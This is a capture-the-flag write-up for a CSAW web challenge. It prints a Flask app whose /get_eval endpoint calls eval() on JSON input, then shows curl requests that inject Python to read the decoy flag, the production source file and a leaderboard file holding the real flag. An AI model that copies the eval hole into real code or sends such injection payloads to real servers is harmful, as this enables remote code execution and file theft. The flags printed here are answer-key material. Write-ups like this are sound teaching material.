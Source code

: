```yaml
---
title: Playing on the Backcourts
author: AlexanderHOtt
---
```


## Challenge

> yadayada playing tennis like pong yadayada someone's cheating yadayada at least the leaderboard is safe!
>
> -- smallfoot

```py title="app_public.py"
from flask import Flask, render_template, request, session, jsonify, send_file
from hashlib import sha256
from os import path as path

app = Flask(__name__)
app.secret_key = 'safe'

leaderboard_path = 'leaderboard.txt'
safetytime = 'csawctf{i_look_different_in_prod}'

@app.route('/')
def index() -> str:
    cookie = request.cookies.get('session')
    
    if cookie:
        token = cookie.encode('utf-8')
        tokenHash = sha256(token).hexdigest()
        
        if tokenHash == '25971dadcb50db2303d6a68de14ae4f2d7eb8449ef9b3818bd3fafd052735f3b':
            try:
                with open(leaderboard_path, 'r') as file:
                    lbdata = file.read()
            
            except FileNotFoundError:
                lbdata = 'Leaderboard file not found'
            
            except Exception as e:
                lbdata = f'Error: {str(e)}'
                
            return '<br>'.join(lbdata.split('\n'))
    
    open('logs.txt', mode='w').close()
    return render_template("index.html")


@app.route('/report')
def report() -> str:
    return render_template("report.html")


@app.route('/clear_logs', methods=['POST'])
def clear_logs() -> Flask.response_class:
    try:
        open('logs.txt', 'w').close()
        
        return jsonify(status='success')
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))

    
@app.route('/submit_logs', methods=['POST'])
def submit_logs() -> Flask.response_class:
    try:
        logs = request.json
        
        with open('logs.txt', 'a') as logFile:
            for log in logs:
                logFile.write(f"{log['player']} pressed {log['key']}\n")
        
        return jsonify(status='success')
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/get_logs', methods=['GET'])
def get_logs() -> Flask.response_class:
    try:
        if path.exists('logs.txt'):
            return send_file('logs.txt', as_attachment=False)
        else:
            return jsonify(status='error', reason='Log file not found'), 404
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/get_moves', methods=['POST'])
def eval_moves() -> Flask.response_class:
    try:
        data = request.json
        reported_player = data['playerName']
        moves = ''
        if path.exists('logs.txt'):
            with open('logs.txt', 'r') as file:
                lines = file.readlines()
                
                for line in lines:
                    if line.strip():
                        player, key = line.split(' pressed ')
                        if player.strip() == reported_player:
                            moves += key.strip()
        
        return jsonify(status='success', result=moves)
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))


@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']
        
        return jsonify(status='success', result=deep_eval(expr))
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))


def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr
    
    return deep_eval(nexpr)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

## Solution

Reading through app_public.py, `safetytime = 'csawctf{i_look_different_in_prod}'` and the `/get_eval` route stand out.

```py title="app_public.py"
# ...
@app.route('/get_eval', methods=['POST'])
def get_eval() -> Flask.response_class:
    try:
        data = request.json
        expr = data['expr']
        
        return jsonify(status='success', result=deep_eval(expr))
    
    except Exception as e:
        return jsonify(status='error', reason=str(e))


def deep_eval(expr:str) -> str:
    try:
        nexpr = eval(expr)
    except Exception as e:
        return expr
    
    return deep_eval(nexpr)
# ...
```

You should *never* use `exec` or `eval`, especially when the input comes from an untrusted source (e.g. a POST request).

But because they did, we can curl the endpoint with our code.

```bash
curl -X POST -d '{"expr":"safetytime"}' -H "Content-Type: application/json" https://backcourts.ctf.csaw.io/get_eval
{"result":"csawctf{7h1s_1S_n07_7h3_FL49_y0u_4R3_l00K1n9_f0R}","status":"success"}
```

Well, it could be the key, but it seems to be a distraction.

However, we have code execution. Lets see the actual file that is in production.

```bash
curl -X POST -d '{"expr":"open(__file__).read()"}' -H "Content-Type: application/json" https://backcourts.ctf.csaw.io/get_eval
```

```py title="app_public.py"
# ...
leaderboard_path = 'leaderboard.txt'
safetytime = 'csawctf{7h1s_1S_n07_7h3_FL49_y0u_4R3_l00K1n9_f0R}'
# ...
```

My next guess was to read the leaderboard.txt

```bash
curl -X POST -d '{"expr":"open(leaderboard_path).read()"}' -H "Content-Type: application/json" https://backcourts.ctf.csaw.io/get_eval
{"result":"1.kainzow \n2.wozniak \n3.beastmaster64 \n4.m4y4 \n5.smallfoot \n6.BBLDrizzy \n7.\u00af\\_(\u30c4)_/\u00af \n8.dvorak\n9.csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}\n10.funGuyQiu \n11.bidenJoe","status":"success"}
```

There it is

```
csawctf{5H1774K3_Mu5Hr00M5_1_fuX0R3d_Up_50n_0F_4_81207CH}
```
